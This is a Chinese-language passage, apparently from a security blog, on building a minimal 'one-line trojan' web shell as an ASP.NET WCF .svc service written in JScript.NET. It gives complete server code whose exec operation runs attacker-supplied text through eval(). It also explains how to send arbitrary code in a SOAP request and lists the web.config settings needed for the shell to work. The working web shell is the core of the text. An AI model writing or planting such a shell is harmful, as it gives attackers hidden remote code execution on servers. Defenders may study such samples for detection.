 [![](https://p1.ssl.qhimg.com/t01bcae30d9774367a5.png)](https://p1.ssl.qhimg.com/t01bcae30d9774367a5.png)

[![](https://p2.ssl.qhimg.com/t0129f903fb5af6247c.png)](https://p2.ssl.qhimg.com/t0129f903fb5af6247c.png)

在Jscript.Net中实现这两个功能的分类是WebMethodAttribute类和ScriptMethodAttribute类，最终写出一句话木马服务端代码：

```
&lt;%@ ServiceHost Language="JScript" Debug="true" Service="svcLessSpy"   %&gt;

import System;

import System.Web;

import System.IO;

import System.ServiceModel;

import System.Text;

ServiceContractAttribute public class svcLessSpy

`{`

OperationContractAttribute public function exec(text : String) : String

`{`

return eval(text);

`}`

`}`
```

[![](https://p5.ssl.qhimg.com/t014138f18aa82fade4.png)](https://p5.ssl.qhimg.com/t014138f18aa82fade4.png)打开浏览器输入 DateTime.Now.ToString() 成功打印出当前时间

其实请求的数据是一条SOAP消息，也是一个普通的XML文档，但必须要包含Envelope 命名空间、不能包含DTD引用和XML处理指令；

[![](https://p0.ssl.qhimg.com/t01961b6ba1de4bcc41.png)](https://p0.ssl.qhimg.com/t01961b6ba1de4bcc41.png)

Envelope元素是SOAP消息的根元素，它的存在就可认为这个XML是一个SOAP消息、Body元素包含准备传送到消息最终端点的数据，上面的tem:exec和tem:text元素是应用程序专用的元素,并不是标准SOAP的一部分，发送HTTP请求的时候只需修改tem:Ivan就可以实现任意代码执行，至此SVC版本的一句话小马也已经实现。这里还需要注意一点，web.config里必须要配置

```
&lt;system.serviceModel&gt;

&lt;behaviors&gt;

&lt;serviceBehaviors&gt;

&lt;behavior&gt;

&lt;serviceMetadata httpGetEnabled="true"/&gt;

&lt;/behavior&gt;

&lt;/serviceBehaviors&gt;

&lt;/behaviors&gt;

&lt;serviceHostingEnvironment multipleSiteBindingsEnabled="true" /&gt;

&lt;/system.serviceModel&gt;
```